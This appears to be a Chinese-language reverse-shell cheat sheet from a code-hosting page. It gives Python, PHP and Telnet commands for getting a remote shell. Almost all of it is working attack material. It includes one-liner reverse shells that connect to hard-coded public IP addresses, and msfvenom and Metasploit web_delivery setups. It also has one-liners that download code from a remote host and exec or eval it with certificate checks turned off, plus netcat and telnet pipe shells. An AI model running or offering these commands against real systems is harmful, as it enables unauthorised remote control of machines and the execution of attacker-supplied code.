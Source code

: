 ### Python
```shell
# 一行命令反弹shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("47.101.214.85",6666));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
- Msfvenom的python反弹shell的payload
```
msfvenom -p python/meterpreter/reverse_tcp LHOST=139.155.49.43 LPORT=6666 -f raw
handler -p python/meterpreter/reverse_tcp -H 139.155.49.43 -P 6666
```
- Web delivery反弹shell
```shell
use exploit/multi/script/web_delivery
msf5 exploit(multi/script/web_delivery) > set target 0
msf5 exploit(multi/script/web_delivery) > set payload python/meterpreter/reverse_tcp
msf5 exploit(multi/script/web_delivery) > set lport 8888
msf5 exploit(multi/script/web_delivery) > exploit –j
#
python -c "import sys;import ssl;u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('http://139.155.49.43:8080/pWMAajktf', context=ssl._create_unverified_context());exec(r.read());"
```

### PHP
- 一行命令反弹shell
```shell
php -r '$sock=fsockopen("47.101.214.85",7777);exec("/bin/sh -i <&3 >&3 2>&3");'
```
- Msfvenom生成
```shell
msfvenom -p php/bind_php lport=6666 -f raw > bind_php.php
```
- Web_delivery
```shell
use exploit/multi/script/web_delivery
msf5 exploit(multi/script/web_delivery) > set target 1
msf5 exploit(multi/script/web_delivery) > set payload php/meterpreter/reverse_tcp
msf5 exploit(multi/script/web_delivery) > exploit –j
#
php -d allow_url_fopen=true -r "eval(file_get_contents('http://139.155.49.43:8080/RRfKpX', false, stream_context_create(['ssl'=>['verify_peer'=>false,'verify_peer_name'=>false]])));"
```

### Telnet
```shell
# 攻击机
nc -lvvp 5555
nc -lvvp 6666

# 目标机
telnet 192.168.1.101 5555 | /bin/bash | telnet 192.168.1.101 6666
```
```shell
# 攻击机
nc -lvvp 6666
# 目标机
rm -f a && mknod a p && telnet 192.168.1.101 6666 0<a | /bin/bash 1>a
rm -f a;mknod a p;telnet 192.168.1.101 6666 0<a | /bin/bash 1>a
```
